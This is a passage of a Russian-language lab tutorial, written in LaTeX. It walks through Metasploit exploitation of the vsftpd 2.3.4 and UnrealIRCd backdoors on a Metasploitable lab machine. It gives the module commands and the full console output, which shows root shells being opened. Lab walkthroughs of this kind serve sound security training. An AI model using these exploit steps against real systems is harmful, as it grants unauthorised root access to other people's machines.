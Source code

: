\documentclass[10pt,a4paper]{article}
\begin{document}
\begin{verbatim}
show payloads
\end{verbatim}

В RHOST записывается доменное имя или IP адрес целевой машины. Запускатся эксплоит командой exploit.

В результатае работы эксплоита, на целевой машине можно получить root-доступ.

\begin{lstlisting}
[*] 192.168.1.105 - Command shell session 2 closed.  Reason: User exit
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 3 opened (192.168.1.104:34164 -> 192.168.1.105:6200) at 2015-06-03 17:33:24 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

\end{lstlisting}

\subsubsection{Получить консоль используя уязвимость в irc}

Для решения этой задачи тоже существует эксплоит, называется unreal\_ircd\_3281\_backdoor

\begin{verbatim}
use exploit/unix/irc/unreal_ircd_3281_backdoor
\end{verbatim}

Далее требуется устрановить адрес цели и запустить эксплоит:
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.1.105
RHOST => 192.168.1.105
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.1.105:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo h7BBZE0elKiDkEDc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "h7BBZE0elKiDkEDc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 4 opened (192.168.1.104:4444 -> 192.168.1.105:47466) at 2015-06-03 17:36:26 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
\end{lstlisting}
\end{document}
